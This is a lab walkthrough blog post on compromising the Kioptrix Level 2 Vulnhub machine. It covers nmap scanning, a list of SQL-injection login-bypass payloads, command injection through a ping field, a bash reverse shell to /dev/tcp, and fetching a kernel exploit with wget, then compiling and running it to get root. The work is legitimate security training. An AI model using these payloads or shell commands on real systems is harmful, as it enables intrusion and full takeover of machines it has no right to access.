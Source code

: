```yaml
---
title: Kioptrix Level 2 Vulnhub Walkthrough
date: 2019-09-01 13:37:47 GMT+2
categories: [Vulnhub]
tags: [vulnhub, boot2root, ethical hacking]     # TAG names should always be lowercase
image: /assets/img/posts/kioptrix2/kioptrix2.png
---
```


## Machine Info
* Difficulty: Easy
* Goal: Gain root access

## Network Scanning
### Netdiscover
We run netdicover to get the target ip address through host-only adapter interface (eth1).

```bash
# Kali linux terminal
netdiscover -i eth1
```

![netdiscover](/assets/img/posts/kioptrix2/1.png)

### Nmap
We run nmap with the aggressive scan to scan all ports and discover the open ports and services on the target machine.

```bash
# Kali linux terminal
nmap -p- -A 192.168.56.111
```

![nmap](/assets/img/posts/kioptrix2/2.1.png)
![nmap](/assets/img/posts/kioptrix2/2.2.png)

## Enumeration
### Enumerating HTTP Service
As a result of nmap scan, we got a bunch of open ports and services. We start with HTTP service on port 80 and go to the website to see how it looks like. We found a login page, then first thing we do is viewing page source but we did not find anything seems to be interested. Also, we try to use some default credentials such as admin:admin or admin:password but nothing work.

![website](/assets/img/posts/kioptrix2/3.1.png)
![website](/assets/img/posts/kioptrix2/3.2.png)

## Exploitation
### SQL Injection

We decided to try sql injection. We enter any username and password (such as test:12345) then we launch burp suite to intercept the request and send the request to the intruder. We select the parameters (uname & psw) to replace their value with the sql payload then we set the attack type to cluster bomb to try all possible combinations of username and password.

![login_page](/assets/img/posts/kioptrix2/3.3.png)
![burp](/assets/img/posts/kioptrix2/4.1.png)

We copy the sql payloads and paste them for the payload set 1 and payload set 2.

```sql
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
' or 1=1 --
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
```

![burp](/assets/img/posts/kioptrix2/4.2.png)

After that, we start the attack and some of the payloads worked and we logged in successfully.

![burp](/assets/img/posts/kioptrix2/4.3.png)

We select one of our succeeded payloads (such as username: admin'# and password: '_') and use it to login.

![login_success](/assets/img/posts/kioptrix2/5.png)

After we logged in, we have a page that execute ping command.

```bash
# Website text field
127.0.0.1
```

![ping](/assets/img/posts/kioptrix2/7.1.png)
![ping](/assets/img/posts/kioptrix2/7.2.png)

We try to leverage the command execution property in order to execute another command after the ping command. And we are succeeded to execute "id" command after the execution of ping command.

```bash
# Website text field
127.0.0.1; id
```

![ping](/assets/img/posts/kioptrix2/8.1.png)
![ping](/assets/img/posts/kioptrix2/8.2.png)

Therefore, we can exploit this command execution property to execute reverse shell. We open a listener on another terminal and waiiting for the reverse shell on port 4444. And we got a shell as apache user successfully.

```bash
# Kali linux terminal
nc -nlvp 4444
id
```
```bash
# Website text field
127.0.0.1; bash -i >& /dev/tcp/192.168.56.101/4444 0>&1
```

![reverse_shell](/assets/img/posts/kioptrix2/9.2.png)

## Post Exploitation
### Privilege Escalation
After we got a shell on the target machine as apache user, we need to escalate our privileges to root user. So, we check the target kernel version and we found it "2.6.9".

```bash
# Target terminal
uname -a
lsb_release -a
```

![kernel_version](/assets/img/posts/kioptrix2/10.png)

We use searchsploit to search for any available privilege escalation exploits for that version. After trying different privilege escalation exploits, we reached to [9545.c](https://www.exploit-db.com/exploits/9545) which is successfully worked with us.

```bash
# Kali linux terminal
searchsploit linux kernel centos
searchsploit -m linux/local/9545.c
```

![searchsploit_9545.c](/assets/img/posts/kioptrix2/11.2.png)

And finally we got a root shell on the target machine.

```bash
# kali linux terminal
python -m SimpleHTTPServer
```
```bash
# Target terminal
cd /tmp
wget http://192.168.56.157:8000/9545.c
gcc 9545.c -o 9545
./9545
```

![root_shell](/assets/img/posts/kioptrix2/12.3.png)
